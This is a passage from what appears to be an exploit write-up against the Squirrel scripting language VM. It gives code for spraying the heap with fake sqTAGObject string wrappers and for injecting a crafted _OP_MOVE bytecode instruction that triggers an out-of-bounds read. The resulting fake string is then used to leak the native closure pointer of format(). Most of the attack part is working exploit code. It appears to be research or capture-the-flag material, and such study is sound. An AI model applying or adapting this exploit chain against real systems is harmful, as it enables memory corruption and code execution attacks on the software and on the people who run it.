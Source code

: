 This is our first heap spray. We're spraying a bunch of sqTAGObjects, with their type set to OT_STRING
and `_unVal` set to readTarget. 

Note that we're not spraying SQString objects, but instead sqTAGObjects. This is because the VM instructions use sqTAGObjects as generic wrapper objects to interface with any SQObject. The sqTAGObjects indicate what type of objects their wrapping through their `_type` field and the address of that object through their `_unVal` field. In our case, we're dealing with the SQString type and we want these object to be located at `readTarget`.

```lua
print(format("[~] Performing fakeString Spray with 0x%016x!...\n", readTarget))
for(local i=0; i < sSpray.len(); i+= 0x10) {
    #### Build fake sqTAGObject ####
    sSpray.writen(0x08000010, 'i')     # type OT_STRING
    sSpray.writen(0x42424242, 'i')     # padding

    sSpray.writen(readTarget, 'l')     # _unVal
}
```

The heap is now filled with our fake sqTAGObjects. Now we need to use the OOB read in `_OP_MOVE`
to load one of our fake objects. This can't be done through squirrel code, but instead we'll have to inject a cutom line of assembly into the final `cnut` file. 

```lua
local tmp = "AAAABBBBCCCCDDDD"

# --- ASM ---
# '[0x33] _OP_MOVE: 0x8, 0x%x, 0x0, 0x0' % ((0xd650+0x5000) >> 4) # this is the offset to our blob
                                                                  # relative to the vm stack
```

First we create a `tmp` string. It will later be overwritten to hold one of our fakeStrings but in order for the compiler to work properly, we need to give it some placeholder value. 


`tmp` is now a fake SQString with its data pointing to `format()`'s SQNativeClosure. Our goal is to leak the
`_function` pointer of this SQNativeClosure, which is located at offset 0x70 from readTarget. This is 
easy to do, because we can just iterate over the string to get the address and store it to `formatClosure`.

```lua
for(local i=0x77; i>=0x70; i -= 1) {
    local cur = tmp[i] & 0xff;
    formatClosure += cur;
    if(i != 0x70) {
        formatClosure = formatClosure << 8;
    }
}

print(format("[+] Got format _function leak: 0x%016x!\n", formatClosure))
```
